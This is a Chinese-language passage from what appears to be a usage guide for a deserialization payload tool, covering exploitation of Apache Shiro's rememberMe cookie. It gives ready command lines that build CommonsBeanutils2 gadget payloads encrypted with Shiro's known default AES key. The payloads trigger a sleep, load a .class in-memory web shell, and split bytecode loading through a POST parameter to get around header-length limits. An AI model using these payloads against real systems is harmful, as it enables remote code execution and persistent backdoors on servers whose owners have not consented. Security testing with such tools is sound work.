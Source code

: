 * 当Shiro Key错误时：响应中有deleteMe

![image-20250105135841583](images/image-20250105135841583.png)

### 利用链Gadget直接攻击

描述：当确定目标站点的Shiro加密方式和密钥以及利用链之后，就可以使用Gadget进行攻击了

工具：-g参数指定利用链，-a参数指定利用链对应的漏洞利用效果，后面加上-shiro-encrypt和-shiro-key参数即可使用Shiro加密

Shiro自带1.9x，下面用CommonsBeanutils2来举例：

* 使用指定密钥生成payload：

```java
-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:sleep:10" -shiro-encrypt "AES-CBC" -shiro-key "kPH+bIxk5D2deZiIxcaaaA=="
```

* TemplatesImpl加载.class内存马

```java
-m YsoAttack -g CommonsBeanutils2 -a 'Templateslmpl:class_file:/tmp/SessionDataUtil.class' -shiro-encrypt "AES-CBC" -shiro-key "kPH+bIxk5D2deZiIxcaaaA=="
```

### 字节码分离加载

#### SpringMVC defineClass

描述：在SpringMVC中间件的场景下，如果限制请求header的长度可以使用从请求体中字节码分离加载的方式来减少长度

工具：shiro_spring_loadclass:classData 的功能是从classData参数中读取字节码并用ClassLoader加载

```java
-m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:shiro_spring_loadclass:classData" -shiro-encrypt "AES-CBC"
```

在HTTP的remeberMe中填充ysoSimple生成的payload，POST的classData中填充Base64格式内存马：

